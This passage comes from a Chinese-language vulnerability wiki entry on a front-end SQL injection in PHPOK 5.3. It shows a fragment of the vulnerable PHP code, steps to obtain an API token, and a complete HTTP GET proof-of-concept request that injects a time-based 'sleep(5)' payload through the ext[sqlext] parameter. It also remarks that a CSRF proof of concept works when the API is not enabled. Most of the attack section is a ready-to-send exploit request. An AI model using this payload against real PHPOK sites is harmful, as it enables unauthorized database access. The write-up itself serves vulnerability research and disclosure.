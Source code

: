      // 141行
        $ array = array（'id'=> $ id，'param'=> $ param）; 
        $ token = $ this-> lib（'token'）-> encode（$ array）; 
        $ this-> success（$ token）; 
    }

其中第一个如果条件需要在后台生成api字符串：

![](/Users/aresx/Documents/VulWiki/.resource/PHPOK5.3前台注入/media/rId28.png)

> 没开启的话，其实构造一个csrf的poc也是可以的

第二个条件预期id=m\_picplayer即可

### 漏洞复现

    http://0-sec.org/api.php?c=index&f=token&id=m_picplayer

![](/Users/aresx/Documents/VulWiki/.resource/PHPOK5.3前台注入/media/rId30.png)

POC：

    GET /api.php?c=index&f=phpok&token=6318fdtC3WRpOzYNzKVNw78PFa9OhFea5pp3/uZ4U3T67a/F47WhJ0lr856V7yomOcG0u8/UJpIwKKOwJAKspTSWN+5ljVNWR5978g7HHoG14M&ext[sqlext]=sleep(5)%23&ext[site]=1 HTTP/1.1
    Host: 0-sec.org
    Pragma: no-cache
    Cache-Control: no-cache
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (X11; U; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.86 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
    Cookie: PHPSESSION=l87bngd1u307g20iudfmphisu4
    Connection: close

四、参考链接
------------

> <https://xz.aliyun.com/t/6830>
